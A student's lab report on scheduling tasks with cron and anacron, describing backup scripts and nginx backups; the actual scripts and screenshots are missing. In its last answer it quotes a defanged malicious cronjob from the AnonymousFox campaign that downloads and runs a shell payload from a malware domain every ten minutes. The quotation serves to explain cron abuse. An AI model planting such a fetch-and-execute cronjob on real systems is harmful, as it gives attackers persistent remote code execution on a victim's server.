

## System and Network Administration - Lab 8 - Scheduling tasks
    Jaffar Totanji - j.totanji@innopolis.university

### Questions to answer:
1. 
    ***Part 1:***
    
    Let's first create a script `backup.sh` to make our backups:

    

    Testing the script to see if everything is working as intended:

    

    We can now create a cronjob to run our script:

    

    ***Part 2:***

    Our second script `backup2.sh` looks very similar to the first with the exception of deleting the old if it exists previously:

    

    Testing the script to see if everything is working as intended:

    

    We can now create an anacron job to run our script:

    

2.  After installing `nginx`, we can take a look at the file we want to back up:

    

    Let's edit our previous script to back up this directory:

    

    Testing the script to see if everything is working as intended:

    

    We can now create a cronjob to run our script:

    

3. Let's first create some scripts for our cronjobs to run:

    
    
    
    

    We can now create cronjobs to run our scripts:

    

4. Cronjobs can be abused in a multitude of ways, `Cron Privilege Escalation` and `Reinfection Abuse` to name a few. 

    A good example here is `AnonymousFox`’s reinfection abuse where they use a cron job to reinfect someone within a very short period of time.
    Such reinfection can cause malicious behavior such as running malicious processes, interfering with server operations, etc.

    The cronjob itself looks something like this:

        */10 * * * * curl -so gojj hxxp://golang666[.]xyz/css[.]index && /bin/sh gojj /home/[REDACTED]/public_html/[REDACTED] && rm -f gojj
    
    - ***Execution frequency:*** */10 * * * * which runs the command every 10 minutes 
    - ***Command:*** `curl`
    - ***Objective:*** Grabbing content from a malware domain that gets extracted into ./css/index.php

## End of Exercises

## Resources:
- https://blog.sucuri.net/2022/03/new-wave-of-anonymousfox-cron-jobs.html